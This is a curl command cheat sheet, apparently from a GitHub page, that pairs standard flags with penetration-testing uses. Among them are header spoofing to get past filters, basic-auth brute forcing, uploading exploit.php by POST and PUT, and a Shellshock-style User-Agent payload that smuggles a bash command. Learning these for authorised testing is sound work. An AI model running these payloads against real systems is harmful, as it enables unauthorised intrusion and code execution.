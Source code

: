 # [cURL](https://curl.se/docs/)
## **General Help Flags**
-> Shows a short help summary with basic options  
- `curl -h`  
- `curl --help`

-> Shows **all** available options in a long list  
- `curl --help all`

-> Lists all available categories of options (e.g., authentication, connections, output, etc.)  
- `curl --help category`

-> Shows help for a specific category (e.g., HTTP-related options)  
- `curl --help http`

---

## **Manual & Version**
-> Displays the full manual page  
- `curl -M`  
- `curl --manual`

-> Shows the version of `curl`, the supported protocols, and features  
- `curl -V`  
- `curl --version`

---

## **Verbose Output Flags**
### **General Verbose Output**
-> Provides detailed information about the request and response, including headers and connection details  
- `curl -v https://example.com`  
- `curl --verbose https://example.com`

-> Hides progress and error messages (useful to reduce clutter)  
- `curl -s https://example.com`  
- `curl --silent https://example.com`

-> Hides progress but still shows errors (recommended for scripts)  
- `curl -sS https://example.com`

---

### **Debugging Headers & Data**
-> Displays the response headers along with the body  
- `curl -i https://example.com`  
- `curl --include https://example.com`

-> Fetches only the headers (without the response body)  
- `curl -I https://example.com`  
- `curl --head https://example.com`

-> Logs detailed request/response data to a file  
- `curl --trace curl.log https://example.com`

-> Logs detailed request/response data, but only in ASCII (more readable)  
- `curl --trace-ascii curl.log https://example.com`

-> Allows custom output formatting (e.g., response time, status code)  
- `curl -w "Response Code: %{http_code}\n" -o /dev/null -s https://example.com`

---

## HTTP Methods & Request Manipulation**
-> Sends a custom HTTP request method (useful for testing PUT, DELETE, etc.)  
- `curl -X PUT https://example.com/resource`

-> Modifies or adds custom headers (e.g., testing WAF rules or bypassing security)  
- `curl -H "X-Forwarded-For: 127.0.0.1" https://example.com`

-> Sends data with a POST request (e.g., testing forms, injecting payloads)  
- `curl -X POST -d "username=admin&password=1234" https://example.com/login`

-> Reads request body from a file (useful for sending JSON, XML, etc.)  
- `curl -X POST -H "Content-Type: application/json" -d @data.json https://example.com/api`

---

## Authentication & Cookies**
-> Uses Basic Authentication (useful for brute force or testing credentials)  
- `curl -u admin:password https://example.com/protected`

-> Uses a session cookie (useful for maintaining authentication)  
- `curl -b "PHPSESSID=abcd1234" https://example.com/dashboard`

-> Stores cookies from a response into a file  
- `curl -c cookies.txt https://example.com`

-> Uses stored cookies for a new request  
- `curl -b cookies.txt https://example.com`

---

## Proxy & Evasion Techniques**
-> Sends requests through a proxy (useful for anonymity and testing)  
- `curl -x http://proxy.example.com:8080 https://target.com`

-> Uses a SOCKS5 proxy (e.g., routing through Tor)  
- `curl --socks5 127.0.0.1:9050 https://target.onion`

-> Changes the User-Agent string (useful for bypassing security filters)  
- `curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" https://example.com`

-> Spoofs the Referer header  
- `curl -e "https://google.com" https://example.com`

---

## Enumeration & Reconnaissance**
-> Checks for available HTTP methods (useful for discovering misconfigurations)  
- `curl -X OPTIONS -i https://example.com`

-> Follows redirects (useful for tracking authentication flows)  
- `curl -L https://example.com`

-> Measures response time (useful for identifying time-based attacks)  
- `curl -o /dev/null -s -w "Time: %{time_total}s\n" https://example.com`

-> Dumps response headers (useful for fingerprinting web technologies)  
- `curl -I https://example.com`

---

## File Transfers & Exploitation**
-> Uploads a file via POST (useful for testing file upload vulnerabilities)  
- `curl -F "file=@exploit.php" https://example.com/upload`

-> Uploads a file via PUT (useful for testing misconfigured web servers)  
- `curl -X PUT --data-binary @exploit.php https://example.com/exploit.php`

-> Downloads a file from a server (useful for exfiltration)  
- `curl -O https://example.com/file.txt`

-> Executes command injection through headers (useful for testing RCE)  
- `curl -H "User-Agent: () { :; }; /bin/bash -c 'id'" https://example.com`

---

